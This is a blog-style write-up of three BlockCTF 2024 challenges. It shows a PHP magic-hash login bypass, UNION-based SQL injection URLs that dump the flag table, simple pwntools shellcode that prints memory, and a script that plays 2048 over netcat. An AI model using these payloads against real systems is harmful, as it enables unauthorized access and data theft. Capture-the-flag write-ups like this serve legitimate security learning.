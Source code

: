 +++
date = '2024-11-15T12:53:25+01:00'
draft = false
title = 'BlockCTF 2024 - writeup'
author = 'TheMrEviil'
categories = ['writeups']
+++
![image dotgit](/post/blockctf2024/blockctf_logo.png)
## WEB: Juggl3r

Description:
```
Juggl3r
200
The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?

http://54.85.45.101:8080/
```
This challange remember me why i lovd PHP and the same i hate it. When we go on website we have only login page with attempt 5 minut. 
In requests we find version PHP and Apache. Well... lets mix some params in request. When we set username `admin` and  `password[]=1` server response `` Warning: hash() expects parameter 2 to be string, array given in /var/www/html/login.php on line 36` 

This information give a lot of things + challange name Juggl3r. In PHP 7.4 we have some thing like type juggling. It's not good logic to equal variables example:
'123' == 123 : TRUE

but in warning we have information about `hash()` function let's check magic hash. Concept takes advantage of this behavior by using special strings that, when compared to each other with ==, are evaluated as equal to each other (even though they may seem different). In particular, it uses strings that PHP will interpret as a number 0 during comparison.

For example:

"0e12345" == "0" is true because "0e12345" is interpreted as 0.

Common hashes in PHP are MD5 and SHA256. Here’s an example of a "magic hash" for SHA256:
SHA256:
`34250003024812:0e46289032038065916139621039085883773413820991920706299695051332`


and we got admin. 
Next step in url we can change user_id parameter. but not interesting, but when i add -- we have SQL Syntax ERROR . AWESOME 

now we add a little bit SQL 
`http://54.85.45.101:8080/admin.php?user_id=NULL%20union%20select%201,%20table_name,%201%20FROM%20information_schema.tables%20LIMIT%201%20OFFSET%2083--`

and set user_id=NULL because we need spot to display query result. When we have table name `flags` get column name

`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, COLUMN_NAME, 1 FROM information_schema.columns WHERE table_name = 'flags' LIMIT 1 OFFSET 0--`

now we can read flag
`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, flag, 1 FROM flags WHERE id = 1--`

and gg `flag{juggl3_inject}`


## PWN: Only Ws

Description:
```
Only Ws
50
The flag is write there. All you have to do is get it.

nc 54.85.45.101 8005
```

When we connect to netcat we have flag address. Write some asm with the best friend ChatGPT
```
from pwn import asm, context

context.arch = 'amd64'

shellcode = asm("""
    mov rax, 1
    mov rdi, 1
    mov rsi, 0x4040a0
    mov rdx, 64
    syscall
    mov rax, 60
    xor rdi, rdi
    syscall
""")

with open("payload1", 'wb') as f:
    f.write(shellcode)
print(shellcode)

```

ok, now we can send a payload to nc and get flag
`flag{kinda_like_orw_but_only_ws}`

## MISC: 2048 ai

Description:

```
2048 ai
150
Can you speedrun 2048?

nc 54.85.45.101 8006
```

Code:
```
import time
import sys
import ctypes
import math
import os
import random
import pwn
from pwn import cyclic_find

pwn.context.log_level = 'debug'

def to_c_board(m):
    board = 0
    i = 0
    for row in m:
        for c in row:
            board |= int(round(math.log(c, 2))) << (4 * i) if c > 0 else 0
            i += 1
    return board

def movename(move):
    return ['w', 's', 'a', 'd'][move]

def find_best_move_for_4x4(board):
    if len(board) != 4 or any(len(row) != 4 for row in board):
        raise ValueError("Input must be a 4x4 matrix.")
    
    c_board = to_c_board(board)
    move = ailib.find_best_move(c_board)

    if move < 0:
        return "No moves available"
    return movename(move)

def parse_board_state(response):
    board_state = []
    lines = response.splitlines()[1:]
    for line in lines[:4]:  # Process only the first 4 lines for rows
        row = [int(x) for x in line.split() if x.isdigit()]
        # Pad row with zeros if less than 4 elements
        while len(row) < 4:
            row.append(0)
        board_state.append(row)

    while len(board_state) < 4:
        board_state.append([0, 0, 0, 0])
    
    return board_state

# Initializing the AI library
for suffix in ['so', 'dll', 'dylib']:
    dllfn = '2048-ai/bin/2048.' + suffix
    if os.path.isfile(dllfn):
        ailib = ctypes.CDLL(dllfn)
        break
else:
    print("Couldn't find 2048 library bin/2048.{so,dll,dylib}! Make sure to build it first.")
    sys.exit()

ailib.init_tables()
ailib.find_best_move.argtypes = [ctypes.c_uint64]

# Example board state
board_state = [
    [0, 0, 0, 0],
    [2, 0, 0, 0],
    [2, 0, 0, 0],
    [0, 0, 0, 0]
]


p = pwn.remote('54.85.45.101',8006)

last_moves = []
while True:
    response = p.recvuntil(b"Enter command(s) (w/a/s/d for movement, q to quit):", timeout=3).decode("UTF-8")
    
    
    if "Congratulations" in response or "Over" in response:
        print(response)
        sys.exit()
    
    board_state = parse_board_state(response)
    print("Stan planszy:", board_state)  
    
    move = find_best_move_for_4x4(board_state)
    print('move', move)
    if move == "No moves available":
        print("No valid moves left. Exiting.")
        sys.exit()
    
    last_moves.append(move)
    p.sendline(move.encode('utf-8'))

```


And we have `flag{f4st3r_th4n_hum4nly_p0ssibl3}`

We finish CTF on #19 :) 

Bye 
